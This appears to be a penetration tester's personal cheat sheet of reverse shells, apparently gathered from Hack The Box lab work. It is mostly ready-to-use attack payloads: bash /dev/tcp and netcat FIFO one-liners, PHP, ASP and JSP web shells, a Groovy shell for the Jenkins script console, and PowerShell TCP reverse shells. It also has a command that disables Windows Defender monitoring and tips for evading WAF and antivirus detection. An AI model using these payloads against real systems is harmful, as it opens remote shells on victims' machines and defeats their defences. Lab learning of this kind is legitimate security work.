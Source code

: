 ! Use 443 port to evade WAF.
#shell

#### Generator
https://www.revshells.com/
#### Powershell generator
Encrypted & Passes AV
https://github.com/Adkali/PowerJoker
```bash
git clone https://github.com/Adkali/PowerJoker && cd Powerjoker
python3 PowerJoker.py -l 10.10.16.84 -p 1337
```
#### Basic bash shell
```bash
/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.117/4444 0>&1'

echo -ne 'bash -i >& /dev/tcp/10.10.14.25/4444 0>&1' | base64

echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

```
```php
system('rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/bash+-i+2>%261|nc+10.10.14.6+4444+>/tmp/f')
```
##### Upgrade shell to fully interactive:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty size;stty raw -echo;fg
#export SHELL=bash
#stty rows $x columns $y #Set remote shell to x number of rows & y columns
export TERM=xterm-256color #allows you to clear console, and have color output
```
or
```bash
script /dev/null bash
```
Good shell
```
rlwrap nc -lvnp
```
#### [[metasploit]]

#### Cheatsheet
https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/

#### PHP
#php
```bash
curl https://raw.githubusercontent.com/Wh1ter0sEo4/reverse_shell_php/refs/heads/main/reverse_sell.php > rsh.php
```

##### Java:
#java
https://alionder.net/jenkins-script-console-code-exec-reverse-shell-java-deserialization/

##### ASP:
#asp
```asp
<% eval request("cmd") %>
```

##### JSP:
[[jsp]] #java
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

##### Groovy (jenkins console /script):
[[groovy]]
```Groovy
String host="10.10.15.232";
int port=8000;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

##### Socat port forwarding:
[[port forwarding]]
[[socat]] #bash #shell
Download:
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

from 8080 to 8888:
`./socat TCP-LISTEN:8888,fork TCP:127.0.0.1:8080

ssh port forwarding:
```shell-session
ssh -L 55553:127.0.0.1:55553 root@192.168.0.44
```

bash shells:
```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

powershell (run from cmd.exe):
[[powershell]]
```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

### Windows
Disable AV to allow running shell from admin's powershell:
```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

```cmd
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```